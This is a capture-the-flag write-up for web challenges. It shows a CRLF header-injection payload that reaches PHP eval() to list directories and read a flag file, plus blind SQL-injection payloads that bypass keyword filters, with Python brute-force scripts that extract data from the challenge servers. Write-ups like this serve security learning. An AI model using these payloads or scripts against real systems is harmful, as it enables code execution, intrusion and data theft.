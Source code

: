 # CuaaS

Take a look to index.php and cleaner.php

You can see in cleaner.php file uses `eval()` funtion, maybe you need to use it to get flag.

```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
	if ($name == "X-Visited-Before"){
		tryandeval($value);
	}}
?>

```

`eval()` function is only called when `X-Visited-Before` header is in request.

Note that `/cleaner.php` must be accessed from localhost (12.0.0.1). So we need to access it via index.php:

```php
function clean_and_send($url){
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			echo 'data';
			$cleanerurl = "http://127.0.0.1:9000/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
    		echo $uncleanedURL;
			}
```

But we can see that there is no `X-Visited-Before` header in request (stream_context_create function) so we need to add it via $uncleanedURL variable (value of url parameter)
. Two headers will be separated by `\r\n`.

So payload for url is something like:

```
url=a%0d%0aX-Visisted-Before:payload;
```

List file in `/`:
```php
url=a%0d%0aX-Visited-Before:var_dump(scandir('/'));
```
![image](https://user-images.githubusercontent.com/83667873/163729406-bd5e981a-3abd-42a0-ba28-e899dac077cb.png)

Read flag:

```php
url=a%0d%0aX-Visited-Before:echo+file_get_contents('/maybethisistheflag');
```

![image](https://user-images.githubusercontent.com/83667873/163729434-9471e559-a49e-46fc-9962-c7741fda968e.png)

# Marvel Pick

After testing, I found that used database is sqlite and we can exploit sqli in character parameter:

![image](https://user-images.githubusercontent.com/83667873/163729601-651ef9c5-d43d-4874-95b1-44bcffd117e7.png)

Here is some filtered words/characters I found (maybe):

`or, select, substr, = , -`

When I enter `or` as input, it returns nothing, so I guess that It will replace `or` which `''`:

![image](https://user-images.githubusercontent.com/83667873/163729782-727a3641-7930-4340-acc6-c5311ace3612.png)

So I try to enter `oorr` and we get `or`. Perfectly, it only replace one time:

![image](https://user-images.githubusercontent.com/83667873/163729863-455970c2-5b06-4aed-b289-fd1deb928004.png)

![image](https://user-images.githubusercontent.com/83667873/163729912-0958284d-2b79-4f77-b9ef-58e7eb1c73c1.png)

Next, we just need to brute to find flag. 

But, note that only only one column return at a time, so I use `limit` to get tables and columns name:

Payload to find tables and columns name:

```
' oorr (unicode(subsubstrstr((seselectlect sql from sqlite_master limit 1,1),{i},1)) like {ord(s)}) union selselectect '1','1
```

![i1](https://user-images.githubusercontent.com/83667873/163730146-155b0741-e98a-4ead-a53e-b94a34a3c0a2.png)

Find flag:

```py
import string
import requests

url = 'http://34.126.83.114:1337/api.php'

partten = string.printable.replace('%','')

def genpayload(i,s):
	return f"' oorr (unicode(subsubstrstr((seselectlect value from flags),{i},1)) like {ord(s)}) union selselectect '1','1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```
![i2](https://user-images.githubusercontent.com/83667873/163730162-7e39f780-6751-4946-995c-a898aa472421.png)

# Marvel Pick Again:

This challenge is similar to Marval Pick, but this challenge is limited number of chars;

```py
import requests
import string

url = 'http://34.126.83.114:3390/api.php'
partten = string.printable.replace('%','').replace("'",'')

#Find number chars
for i in range(1,102):
	r = requests.get(url,params={'character':'a'*i})
	if 'No No NO' in r.text:
		print('[+] Found ',i)
		break
```
![image](https://user-images.githubusercontent.com/83667873/163730258-f3abc5fd-99e1-4a02-9938-f7117786bae3.png)

So we can not use payload use in Marvel Pick.

After a few tries, I found that only `or, select` in lowercase are filtered, It means that we can use  `oR, selEct` or something else:

![image](https://user-images.githubusercontent.com/83667873/163730382-6a84742a-b81b-4a8d-8068-c236927bf68d.png)

Too lazy to brute force, I try the same table name and column name with Marvel Pick, and It work :'))).

Script to find flag:

```py
import requests

url = 'http://34.126.83.114:3390/api.php'
partten = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{|}\"#$&\'()*+,-./:;<=>?@[\\]^`{|}~"

def genpayload(i,s):
	return f"' oR (suBstr((sElect value from flags),{i},1) like '{s}') union selecT 1,'1"

i=1
foundstr=''
while True:
	for s in partten:
		r = requests.get(url,params={'character':genpayload(i,s)})
		if "\"vote_count\":1}" not in r.text:
			foundstr += s
			print('[+]Found',foundstr)
			break
	i = i+1
```

# EzChall + EzChall Again
*Note: I solve them after the CTF*

While the CTF is running, I stuck in comparing password. So I cann't solve these challenges. I solve it after read hint in discord.

